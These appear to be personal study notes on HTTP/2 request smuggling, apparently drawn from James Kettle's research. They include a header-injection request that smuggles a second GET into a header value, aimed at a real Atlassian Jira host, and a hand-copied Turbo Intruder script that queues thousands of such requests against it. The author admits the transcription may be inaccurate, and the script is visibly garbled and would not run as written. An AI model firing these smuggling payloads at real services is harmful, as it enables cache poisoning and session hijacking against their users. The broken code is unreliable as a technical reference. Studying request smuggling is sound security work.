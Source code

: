`Location: /admin
Set-Cookie: session=PgQeEiCyOa6xkzzCFUi9W2hgIUhFiThZ; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
                    
                    
---
## Moving on to  HTTP/2 Desync Attacks
>
  _**With H/1 , there is disagreement  between the Front End and the Back End
  server, on whether to use the Content-Length, or the Transfer -Encoding header, to know the length of the message.
>This is what makes it exploitable.
>
>This dissagreement does not exist in H/2 , because the length is built into the frame layer.
>
##### Example 1
##### H2.CL Desync
---
- Classic request smuggling is a CL.TE or TE.CL issue.
- HTTP/2 downgrade smuggling is H2.CL or H2.TE
(some exceptions apply)
#### H2.TE via Request Header Injection
---
HTTP/2's binary design, combined with the way it compresses headers, enables you to put arbitrary characters in arbitrary places. The server is expected to re-impose HTTP/1-style restrictions with an extra validation step:
> Any request that contains a character not permitted in a header field value MUST be treated as malformed
Naturally, this validation step is skipped by many servers.
Atlassian's Jira looked like it had such vulnerability. I created a simple proof-of-concept intended to trigger two distinct responses:
- a normal one
- and the robots.txt file. 
However, the actual result was something else entirely:
(in Turbo Intruder)
**The original GET request:**
>GET /secure/ QuickSearch.jira HTTP/1.1
>Host: ecosystem.atlassian.net
>Foo: bar*~Host: ecosystem.atlassian.net^ `~`  ^ GET /robots.txt HTTP/1.1*~Foo: bar
>
Can use multiple new lines in the request to split the header
---
*Attenion reader: Warning,  the following Turbo Intruder request, original GET requests and responses were copied by hand, line for line from very small font from a video of James conducting this attack. Some headers , spelling and names, may be incorrect. )
**The exact Turbo Intruder script used against Atlasian by James Kettle**
> def  queueRequests(target, wordlists):
> 		engine = RequestEngine=(endpoint=https://ecosystem.atlassian.net :443,
> 													concurrentConnections=5,
> 													requestsPerConnection=10,
> 													engine=Engine.HTTP2,
> 													pipeline=False
> 													)
> 		attack = `'''GET /secure/QuiclSearch.jira HTTP/1.1
> `Host: ecosystem.atlassian.net
> `Foo: bar*~Host: ecosystem.atlassian.net^ `~`  ^ GET /robots.txt HTTP/1.1*~Foo: bar
>
>`'''
>		for i in range(5000):
>		engine.queue(target.req)
>